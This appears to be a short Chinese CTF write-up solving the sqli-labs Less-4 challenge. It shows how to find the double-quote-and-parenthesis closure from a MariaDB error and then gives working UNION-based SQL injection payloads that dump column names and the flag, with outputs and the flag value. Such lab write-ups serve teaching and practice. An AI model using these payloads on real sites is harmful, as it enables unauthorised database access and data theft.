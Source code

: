 题目：sqli-labs less4

首先测试出题目为字符型注入。由题目名字可知这次注入跟双引号有关。在url后加入`?id=0"`，访问后，得到的输出如下
```
Welcome    Dhakkan
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"0"") LIMIT 0,1' at line 1
```
由此可知闭合方式为`")`,在url后加入`?id=0") union select 1,2,3 --+`，访问后，得到的输出如下
```
Welcome    Dhakkan
Your Login name:2
Your Password:3
```
接下来进行正常的Union注入即可得到`flag`，这里在url后加入`?id=0") union select 1,(SELECT Group_concat(column_name) FROM information_schema.columns where table_schema='ctftraining' and table_name='flag'),(SELECT Group_concat(flag) FROM ctftraining.flag) --+`,访问后，得到的输出如下
```
Welcome    Dhakkan
Your Login name:flag
Your Password:flag{7981588c-6f80-44d7-a499-d1db3d5ebecf}
```
`flag`:`flag{7981588c-6f80-44d7-a499-d1db3d5ebecf}`